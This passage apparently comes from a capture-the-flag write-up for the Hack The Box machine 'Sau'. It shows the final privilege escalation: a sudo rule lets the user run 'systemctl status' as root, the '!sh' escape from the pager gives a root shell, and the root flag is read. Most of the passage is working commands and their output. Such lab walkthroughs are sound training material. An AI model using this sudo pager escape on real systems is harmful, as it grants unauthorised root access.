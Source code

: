 <br />
Run sudo -l to see what commands we can run as sudo.

{% raw %}
```sh
puma@sau:~$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
{% endraw %}

<br />
Research systemctl to see all the different ways that we can abuse it to privesc.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/sau/expnotes.png" title="Exploit Notes" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
<a href="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/">https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/</a>

<br />
Run the sudo command and then drop into a shell.

{% raw %}
```sh
puma@sau:~$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh
!sshh!sh
# 
```
{% endraw %}

<br />
Get the root.txt flag.

{% raw %}
```sh
# cat /root/root.txt
cat /root/root.txt
<redacted>
# ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:42:ac brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.224/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:42ac/64 scope global dynamic mngtmpaddr 
       valid_lft 86400sec preferred_lft 14400sec
    inet6 fe80::250:56ff:feb9:42ac/64 scope link 
       valid_lft forever preferred_lft forever
```